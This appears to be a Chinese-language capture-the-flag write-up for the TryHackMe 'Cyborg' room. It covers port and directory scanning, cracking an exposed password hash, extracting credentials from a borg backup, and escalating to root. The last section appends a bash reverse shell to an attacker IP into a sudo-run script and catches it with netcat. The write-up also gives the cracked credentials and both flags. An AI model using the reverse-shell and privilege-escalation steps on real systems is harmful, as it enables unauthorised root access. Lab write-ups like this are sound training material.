 # Cyborg Writeup
> URL : https://tryhackme.com/room/cyborgt8
IP :  10.10.210.57 

## Recon
- 老梗 `nmap -A  10.10.210.5`
	- ![](https://i.imgur.com/FxeAXB1.png)
-  Scan the machine, how many ports are open? 
	-  `2` 
-  What service is running on port 22?
	-  `SSH`
-  What service is running on port 80?
	- `HTTP`
- `python3 dirsearch.py -u http://10.10.210.57/ -e all`
	- `/admin/`
	- `/etc/`
## 解密
- 先從 `/etc/` 路徑開始看裡面有啥
	- http://10.10.210.57/etc
	- ![](https://i.imgur.com/ViOQB9W.png)

- 找到路徑底下有一個 `passwd`
	- http://10.10.210.57/etc/squid/passwd
		- `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
`
		- 看起來是 hash 格式，直接複製出來給約翰
		- `john a.txt --wordlist=/opt/rockyou`
		- ![](https://i.imgur.com/WZB1ZHG.png)
			- 帳號 : `music_archive`
			- 密碼 : `squidward`
## 尋寶
- 去逛 `/admin/`
	- 發現有 Archive 可以下載
	- ![](https://i.imgur.com/FnMkdhB.png)
- 解開之後發現是一種奇怪格式
	- ![](https://i.imgur.com/i3bMeZ8.png)
	- 檔案都是 binary 無法 print
	- Readme 提醒我們可以去看 https://borgbackup.readthedocs.io/
	- borg 是一種備份程式
- 嘗試簡單的看完說明後
	- `borg list .`
		- 輸入密碼，剛剛約翰破出來的 `squidward`
		- 可以看到一些資訊
	- `borg mount . ../a`
		- 把檔案掛載起來
		- ![](https://i.imgur.com/eGdSZbu.png)

- 發現掛載的檔案裡面有 note
	- ![](https://i.imgur.com/YSBGSvx.png)
	- `alex:S3cretP@s3`
	- 看起來就很像帳密

## 進入系統
- 用 ssh 搭配帳密登入
	- ![](https://i.imgur.com/Cz2cN5e.png)
	- 取得 user flag
	- ![](https://i.imgur.com/7b23Lda.png)
	- `flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`
- 嘗試提權
	- 先用 sudo -l 看我們有什麼權限
	- ![](https://i.imgur.com/FYjU6oy.png)
	- 發現我們可以用 `sudo` 執行 `/etc/mp3backups/backup.sh`

- 觀察權限
	- ![](https://i.imgur.com/9rlPjU5.png)
	- 發現我們是這個檔案的擁有者，但我們不能修改他
	- 不過可以透過 `chmod +w` 新增 Write 權限

- 插入 shell
	- `echo "bash -c 'bash -i >& /dev/tcp/10.13.21.55/7877 0>&1'" >> /etc/mp3backups/backup.sh`
	- 直接用 reverse shell 插入檔案最下方
- 執行 shell
	- 攻擊機開啟監聽
		- `nc -vlk 7877`
	- 被駭機用 sudo 執行該檔案
		- `sudo /etc/mp3backups/backup.sh`
	- 拿到 root shell!
		- ![](https://i.imgur.com/xEM5R4U.png)
- 貓根旗幟
	- ![](https://i.imgur.com/KW4V2yi.png)
	- `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`